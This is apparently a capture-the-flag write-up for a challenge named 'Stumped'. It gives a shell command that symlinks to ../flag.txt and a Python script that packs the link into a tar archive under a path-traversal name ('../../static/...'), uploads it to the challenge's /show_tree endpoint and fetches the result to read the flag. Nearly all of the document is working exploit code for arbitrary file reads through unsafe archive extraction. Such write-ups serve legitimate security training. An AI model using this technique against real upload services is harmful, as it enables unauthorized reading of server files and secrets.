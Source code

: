 ![Alt text](image.png)


I think I didn't see a wu for Stumped so here it is:
# Stumped


```bash
ln -s ../flag.txt hacked
python exploit.py
```

exploit.py:

```python
import tarfile
import requests
import uuid

url = "https://thecybercoopctf-b850063e74d1-stumped-1.chals.io"
tempname = str(uuid.uuid4())

def change_name(tarinfo):
    tarinfo.name = "../../static/" + tempname
    return tarinfo

with tarfile.open("exploit.tar", "w:xz") as tar:
    tar.add("hacked", filter=change_name)

files = {'file': open('exploit.tar','rb')}
response = requests.post(f'{url}/show_tree', files=files)

print(f'File uploaded at {url}/static/{tempname}')

response = requests.get(f'{url}/static/{tempname}')
print(response.text)
```